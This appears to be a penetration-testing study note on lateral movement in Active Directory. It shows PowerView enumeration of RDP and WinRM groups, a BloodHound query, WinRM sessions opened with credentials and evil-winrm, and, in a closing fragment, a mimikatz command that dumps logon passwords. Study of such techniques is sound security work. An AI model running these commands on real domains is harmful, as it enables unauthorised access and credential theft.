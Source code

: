 
# Lateral And Vertical Movement

With foothold on the domain, now we need to move further vertically or laterally. If we don't have access to the admin we can try the following:
- **Remote Desktop Protocol** (**RDP**)
- [Powershell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2)
- **MSSQL Server**

BloodHound could help us with:
- [CanRDP](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canrdp)
- [CanPSRemote](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#canpsremote)
- [SQLAdmin](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#sqladmin)

### Remote Desktop 

Usually we will have RDP access with users we find. Sometimes we can't have access to some machines (like the DC), but we can access others to:
- Launch further attacks
- Be able to escalate privileges and obtain credentials for a higher privileged user
- Be able to pillage the host for sensitive data or credentials

With PowerView we can enumerate the members of the **Remote Desktop Users** group on a machine:
```console
PS C:\zeropio> Get-NetLocalGroupMember -ComputerName <COMPUTER NAME> -GroupName "Remote Desktop Users"
```

We can also check this in BloodHound in the **Node Info**, **Execution Rights**.

### WinRM

We can check this with **Get-NetLocalGroupMember** to the **Remote Management Users** group:
```console
PS C:\zeropio> Get-NetLocalGroupMember -ComputerName <COMPUTER NAME> -GroupName "Remote Management Users"
```

We can also utilize this custom Cypher query in BloodHound to hunt for users with this type of access:
```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

We can stablish a WinRM session from Windows:
```console
PS C:\zeropio> $password = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
PS C:\zeropio> $cred = new-object System.Management.Automation.PSCredential ("<DOMAIN>\<USER>", $password)
PS C:\zeropio> Enter-PSSession -ComputerName <COMPUTER NAME> -Credential $cred
```

From Linux we can use [evil-winrm](https://github.com/Hackplayers/evil-winrm):
```console
zero@pio$ evil-winrm -i <IP> -u <USER>
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm